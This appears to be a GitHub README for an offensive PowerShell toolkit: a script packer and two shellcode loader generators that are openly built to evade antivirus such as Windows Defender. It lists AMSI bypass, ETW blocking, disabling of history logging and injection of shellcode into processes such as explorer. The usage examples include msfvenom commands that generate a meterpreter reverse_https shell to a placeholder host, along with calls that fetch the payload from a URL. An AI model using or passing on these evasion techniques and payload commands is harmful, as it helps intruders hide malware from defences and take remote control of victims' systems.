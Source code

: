 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1

> License
  - GNU General Public License v3.0
